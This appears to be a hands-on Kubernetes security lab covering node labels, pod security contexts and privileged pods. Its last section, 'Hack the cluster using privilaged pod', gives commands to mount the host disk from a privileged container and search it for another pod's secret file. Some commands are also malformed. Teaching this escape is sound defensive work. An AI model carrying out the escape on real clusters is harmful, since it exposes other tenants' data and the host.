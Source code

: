 ### Getting started with admision controllers
#### Experiment pod node selector
* list the namespaces in the cluster. Notice that there are 2 namespaces dev and prod 
``` bash
kubectl get ns
```
* List the labels of the cluster nodes
``` bash
kubectl get nodes --show-labels
```
``` bash
NAME      STATUS   ROLES           AGE   VERSION   LABELS
kubeadm   Ready    control-plane   17d   v1.24.2   beta.kubernetes.io/arch=amd64,beta.kubernetes.io/os=linux,kubernetes.io/arch=amd64,kubernetes.io/hostname=kubeadm,kubernetes.io/os=linux,node-role.kubernetes.io/control-plane=,node.kubernetes.io/exclude-from-external-load-balancers=
```
* Set a label to the node (worker node)
``` bash
kubectl label nodes kubeadm nodeSelector: env=dev
```
* Create a pod in dev namespace
``` bash
kubectl run pod-1 --image=nginx -n dev
```
------------------
#### Effects of privilaged pods and implement security context 
* Create a pod as prvilaged pod
``` bash
kubectl run p1-busybox --image=busybox -it -- sh
If you don't see a command prompt, try pressing enter.
/ # 
/ # 
/ # ps
PID   USER     TIME  COMMAND
    1 root      0:00 sh
    6 root      0:00 ps
/ # echo "hi" > /tmp/file1.txt
/ # ls -l /tmp/
total 4
-rw-r--r--    1 root     root             3 Mar  5 05:27 file1.txt
```
* Create a directory day2 and navigate into that 
``` bash
mkdir day2; cd day2
```
* Add security context to the pod defnition
``` bash
vi sec_context.yml
```
``` bash
apiVersion: v1
kind: Pod
metadata:
  name: pod-sec-context
spec:
  securityContext:
    runAsUser: 1000
    runAsGroup: 2000
  containers:
  - name: sec-ctx-demo
    image: busybox
    command: [ "sh", "-c", "sleep 1h" ]
```
``` bash
kubectl create -f sec_context.yml
kubectl get pods
```
``` bash
kubectl exec -it pod-sec-context -- sh
~ $ 
~ $ ps
PID   USER     TIME  COMMAND
    1 1000      0:00 sh -c sleep 1h
    7 1000      0:00 sh
   12 1000      0:00 ps
~ $ echo "hi" > /tmp/file1.txt
~ $ ls -l /tmp/
total 4
-rw-r--r--    1 1000     2000             3 Mar  5 05:46 file1.txt
```
* open sec_context.yml file and add the following config
``` bash
--- 
apiVersion: v1
kind: Pod
metadata:
  name: pod-sec-context-vol
spec:
  securityContext:
    runAsUser: 1000
    runAsGroup: 2000
    fsGroup: 3000
  volumes:
  - name: sec-ctx-vol
    emptyDir: {}
  containers:
  - name: sec-ctx-demo
    image: busybox
    command: [ "sh", "-c", "sleep 1h" ]
    volumeMounts:
    - name: sec-ctx-vol
      mountPath: /app/data
```
``` bash
kubectl apply -f sec_context.yml 
```
* login into the pod-sec-context-vol pod and perform the following 
``` bash
kubectl exec -it pod-sec-context-vol -- sh
~ $ 
~ $ echo "hi" > /tmp/file1.txt
~ $ ls -l /tmp/
total 4
-rw-r--r--    1 1000     2000             3 Mar  5 05:54 file1.txt
~ $ cd /app/data/
/app/data $ echo "hi" > file1.txt
/app/data $ ls -l
total 4
-rw-r--r--    1 1000     3000             3 Mar  5 05:56 file1.txt
/app/data $ cat /etc/passwd 
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/false
bin:x:2:2:bin:/bin:/bin/false
sys:x:3:3:sys:/dev:/bin/false
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/false
www-data:x:33:33:www-data:/var/www:/bin/false
operator:x:37:37:Operator:/var:/bin/false
nobody:x:65534:65534:nobody:/home:/bin/false

app/data $ id
uid=1000 gid=2000 groups=2000,3000
```
``` bash 
exit
```
* Creating privilaged pod
``` bash
vi pod2.yml
```
``` bash
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
spec:
  containers:
  - name: privileged
    image: nginx
    securityContext:
      privileged: true

---
apiVersion: v1
kind: Pod
metadata:
  name: non-privileged-pod
spec:
  containers:
  - name: non-privileged
    image: nginx

```
``` bash
kubectl apply -f pod2.yml
```
``` bash
kubectl exec -it non-privileged-pod -- bash
root@non-privileged-pod:/# cd /dev/
```
* Note: You can't access low level devices like disk
* List the capabilities of container
``` bash
apt update -y && apt install libcap2-bin -y 
capsh --print
```
* Perform the same steps in privilaged pod and observe the differences. 
* After finishing the experiment delete all the pods
``` bash
kubectl delete pod --all
```
Note: We should not use this command in a production cluster

#### Hack the cluster using privilaged pod
* Login as sam user
``` bash
su - sam
```
* Create a pod 
``` bash
apiVersion: v1
kind: Pod
metadata:
  name: sensitive-app
  namespace: dev
spec:
  containers:
  - image: nginx
    name: demo-pod

---
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: dev
spec:
  containers:
  - image: nginx
    name: priv-pod
    securityContext:
      privileged: true
```
``` bash
kubectl apply -f pod1.yml
```
``` bash
kubectl get pods -n dev
```
* Store some sensitive data to the pod
``` bash
kubectl exec -it -n dev sensitive-app -- bash
```
``` bash
echo "some sensitve data" > /root/secret.txt
```
``` bash
exit
```
* connect to the privilaged pod
``` bash
kubectl exec -n dev -it privileged-pod -- bash
```
``` bash
mkdir /host-disk
```
``` bash
ls /dev/
```
``` bash
mount /dev/vda3 /host-disk/
cd /host-disk
ls
find . -name secret.txt
```
``` bash
exit
exit
```
